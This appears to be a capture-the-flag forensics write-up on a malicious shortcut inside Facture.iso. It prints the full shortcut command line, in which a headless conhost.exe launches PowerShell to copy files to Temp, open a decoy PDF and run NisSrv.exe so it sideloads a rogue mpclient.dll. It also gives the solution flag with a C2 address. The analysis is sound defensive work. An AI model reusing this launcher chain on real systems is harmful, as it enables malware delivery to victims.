


# Pretty Links

In the Facture.iso file we have an LNK
```
$ lnkparse Facture.pdf.lnk
Windows Shortcut Information:
   Link CLSID: 00021401-0000-0000-C000-000000000046
   Link Flags: HasTargetIDList | HasLinkInfo | HasName | HasArguments | HasIconLocation | IsUnicode - (231)
   File Flags: FILE_ATTRIBUTE_ARCHIVE - (32)

   Creation Timestamp: 2023-10-28 10:02:04.494671+00:00
   Modified Timestamp: 2023-10-28 10:02:04.553483+00:00
   Accessed Timestamp: 2024-01-20 16:16:02.907880+00:00

   Icon Index: 0
   Window Style: SW_SHOWNORMAL
   HotKey: UNSET - UNSET {0x0000}

   TARGETS:
      Index: 78
      ITEMS:
         Root Folder
            Sort index: My Computer
            Guid: 20D04FE0-3AEA-1069-A2D8-08002B30309D
         Volume Item
            Flags: 0xf
            Data: None
         File entry
            Flags: Is directory
            Modification time: 2024-01-19 00:14:06+00:00
            File attribute flags: 16
            Primary name: Windows
         File entry
            Flags: Is directory
            Modification time: 2024-01-17 02:36:34+00:00
            File attribute flags: 16
            Primary name: System32
         File entry
            Flags: Is file
            Modification time: 2023-10-28 10:02:06+00:00
            File attribute flags: 32
            Primary name: conhost.exe

   LINK INFO:
      Link info flags: 1
      Local base path: C:\Windows\System32\conhost.exe
      Common path suffix:
      LOCAL:
         Drive type: 3
         Drive serial number: 0x387b0fb7
         Drive type: DRIVE_FIXED
         Volume label: OS

   DATA
      Description: Facture du 12 03
      Command line arguments:


                                                              --headless "%WINDIR%\System32\WindowsPowerShell\v1.0\powershell.exe" "$zweeki=$env:Temp;$ocounselk=[System.IO.Path]::GetFullPath($zweeki);$poledemy = $pwd;Copy-Item "$poledemy\*" -Destination $ocounselk -Recurse -Force | Out-Null;cd $ocounselk;;.\Facture.pdf; .\NisSrv.exe"
      Icon location: %ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
```

Note that the conhost.exe process is used with the --headless argument to execute powershell
Conhost is a known lolbas : https://lolbas-project.github.io/lolbas/Binaries/Conhost/

In the powershell command we see that other elements supposed to be present in the iso have been copied into $env:Temp -> C:\Users\Username\AppData\Local\Temp



We therefore open the capture of the file system provided in addition, in the Local\Temp folder 4 elements which have nothing to do there : 
- Facture.pdf
- Facture.pdf.lnk
- NisSrv.exe
- mpclient.dll

By doing a little research we came across this tweet from Sh0ckFR :
https://twitter.com/Sh0ckFR/status/1554021948967079936

We learn that the NisSrv.exe executable was used by LockBit3.0 in 2022 to do DLL Hijacking

Hijacking is possible if the Dll you want to execute is renamed mpclient.dll
https://github.com/Sh0ckFR/Lockbit3.0-MpClient-Defender-PoC

In our case to analyze the dll and try to understand its behavior we will execute it in a VM.
when analyzing network calls after running the dll we get this : 

Calls are failing because the listening port is not found.

GCC{conhost.exe:172.29.107.95:7894}